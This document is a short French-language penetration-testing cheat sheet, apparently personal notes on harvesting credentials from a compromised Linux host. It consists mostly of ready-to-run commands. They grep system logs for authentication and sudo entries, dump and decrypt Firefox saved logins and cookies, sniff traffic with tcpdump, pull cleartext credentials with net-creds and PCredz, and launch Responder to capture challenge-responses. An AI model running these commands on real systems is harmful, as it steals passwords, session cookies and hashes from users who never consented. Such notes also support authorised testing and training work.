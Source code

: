 ```shell
for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
```


## Browsers

Firefox

```shell
ls -la .mozilla/firefox/ | grep default 
```

```shell-session
cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .
```

Déchiffrer les creds avec [firefox_decrypt](https://github.com/unode/firefox_decrypt)

```shell
python3.9 firefox_decrypt.py
```



Tester également cookies.sqlite

```
cp /home/<user>/.mozilla/firefox/*.default-release/cookies.sqlite .
```

```shell
python3 cookieextractor.py --dbpath "/home/plaintext/cookies.sqlite"
```


## Sniffing Tcpdump / Net-Creds / PCredz (Sudo)


1. Lancer Tcpdump afin de capturer le trafic.

```
sudo tcpdump -i ens224 
```


2. Lancer net-creds sur le pcap afin d'identifier tous les identifiants en clair https://github.com/DanMcInerney/net-creds

```
python net-creds.py -p pcapfile
```

Pcredz -> https://github.com/lgandx/PCredz

```
python3 ./Pcredz -f pcapfile
```


## Sniffing Responder

Lancer responder pour capturer le challenge response

```sh
cd /usr/share/responder/ && sudo sed -i 's/On/Off/g' /usr/share/responder/Responder.conf && sudo python3 Responder.py -I eth0
```



